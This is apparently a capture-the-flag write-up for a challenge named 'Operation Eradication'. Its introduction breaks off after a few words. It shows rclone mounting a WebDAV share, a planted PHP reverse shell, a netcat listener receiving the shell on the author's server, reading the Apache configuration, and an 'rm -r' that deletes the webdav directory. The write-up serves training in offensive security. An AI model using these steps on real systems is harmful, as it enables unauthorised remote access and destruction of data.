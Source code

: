 # Operation Eradication

Starting off we 















Using `rclone` we can mount the whole /webdav/ directory into one of our own. <br/>
```sh
kali@kali rclone mount yeet:/webdav/ ./mounted_dir

kali@kali ls mounted_dir/
Accounting  HumanResources  Legal      Operations          Sales   remover.sh
Finance     IT              Marketing  ProductDevelopment  del.sh  rev_shell.php
```

Now I copied a reverse shell into the mounted directory and executed it with `cat`. <br/>
This opens a reverse shell on my Vserver on its public IP. <br/>
```sh
nc -lnvp 1234
listening on [any] 1234 ...


connect to [REDACTED] from (UNKNOWN) [34.123.224.68] 32070
Linux operation-eradication-266f1c7f2786d51f-8498b5d548-zbmvq 5.15.109+ #1 SMP Fri Jun 9 10:57:30 UTC 2023 x86_64 GNU/Linux
 17:22:35 up  4:18,  0 users,  load average: 0.44, 0.25, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ export TERM=xterm
```

Seems like this gave me a reverse shell so I checked the apache configuration: <br/>
```sh
$ cat /etc/apache2/sites-available/*


-----------------------------
DocumentRoot /var/www/html
-----------------------------
```

Knowing the `DocumentRoot` we can take a look at this directory. <br/>
```sh
$ ls -R /var/www/
/var/www/:
html

/var/www/html:
index.php
webdav
```

Knowing that the challenge is to delete all data in webdav I just removed the whole directory: <br/>
```sh
$ rm -r webdav/ 
```



